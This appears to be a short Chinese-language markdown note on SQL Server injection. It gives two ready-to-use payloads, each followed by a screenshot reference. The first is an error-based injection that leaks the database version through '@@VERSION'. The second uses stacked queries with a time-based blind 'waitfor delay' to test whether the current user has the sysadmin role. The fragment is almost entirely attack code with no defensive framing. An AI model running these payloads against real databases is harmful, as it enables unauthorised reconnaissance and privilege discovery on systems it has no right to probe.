 #### 1、报错注入查询数据库版本
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
如下图  
![image](./pic/0.png)

#### 1、堆叠查询+时间盲注查询当前用户是否为dba
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'--
```
如下图  
![image](./pic/1.png)
